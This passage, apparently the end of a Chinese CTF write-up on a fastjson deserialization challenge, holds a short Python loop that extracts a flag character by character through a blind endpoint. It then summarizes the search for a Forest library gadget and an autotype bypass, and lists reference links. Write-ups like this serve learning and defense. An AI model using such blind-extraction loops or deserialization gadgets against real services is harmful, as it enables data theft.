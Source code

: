 ```python
    for i in range(0,1000):
        for j in range(0,127):
            status_code, l = send(f"/blind/{','.join([str(ord(x)) for x in list(flag)] + [str(j)])}")
            if status_code == 200:
                flag += chr(j)
                print(flag)
                break
```


## 总结
* 这个题花了四天才找到forest中原生的gadget，期间一直在与fastjson参数不匹配斗争，后来醒悟，即使第一个poc报错，也是反序列化成功了`ForestResponse`
* 使用题目的类则不会报错，我猜跟他有无参构造函数有一定的关系，forest自带的几个异常类基本没找到具有无参构造函数的。
* 与官方的解法相比，摆脱了题目自带的类，更为通用，也算是一点点成功。



## 参考
[浅谈fastjson下autotype的绕过](https://www.kingkk.com/2020/06/%E6%B5%85%E8%B0%88%E4%B8%8BFastjson%E7%9A%84autotype%E7%BB%95%E8%BF%87/)

[kcon-浅蓝-前35分钟](https://www.youtube.com/watch?v=F_0ifShpF-U)

[无参构造](https://blog.csdn.net/sz85850597/article/details/85695418)

[fastjson-1.2.80简单分析](https://www.cnblogs.com/rnss/p/16738100.html)

[fastjson-全系列详细分析](https://www.freebuf.com/vuls/361576.html)

[浅蓝-读文件gadget利用扩展](https://mp.weixin.qq.com/s/esjHYVm5aCJfkT6I1D0uTQ)

[blackhat-US-21-Xing-How-I-Used-a-JSON](https://i.blackhat.com/USA21/Wednesday-Handouts/US-21-Xing-How-I-Used-a-JSON.pdf)

